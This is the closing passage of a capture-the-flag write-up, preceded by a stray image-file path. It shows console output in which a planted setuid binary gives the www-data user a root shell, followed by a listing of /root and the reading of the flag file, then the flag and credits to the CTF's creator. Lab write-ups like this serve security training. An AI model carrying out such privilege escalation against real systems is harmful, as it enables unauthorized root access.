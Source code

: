```console
-rwxrwxrwx 1 www-data www-data    51 May  3 23:26 update

$ ./setuid
busybox id
uid=0(root) gid=0(root) groups=33(www-data)
cd /root
ls
19700101
change_ip.sh
chkrootkit-0.49
cpp-4.9
flag.txt
fuku
g++-4.9
gcc
gcc-4.9
gcc-ar
gcc-ar-4.9
gcc-nm
gcc-nm-4.9
gcc-ranlib
gcc-ranlib-4.9
id
ifconfig
locate
mlocate
portspoof
python
python2.7
uname
which
whoami
cat flag.txt
Yep, this is a flag. It's worth over 9000 Internet points!
Random keyboard smash: lkhI6u%RdFEtDjJKIuuiI7i&*iuGf)8$d4gfh%4
```
The second flag is ***lkhI6u%RdFEtDjJKIuuiI7i&*iuGf)8$d4gfh%4***

### Thanks and credits
Thanks to Robert Winkel(@RobertWinkel) for creating the CTF. It was an interesting CTF as always especially the Joombla enumeration and scanning stuff.
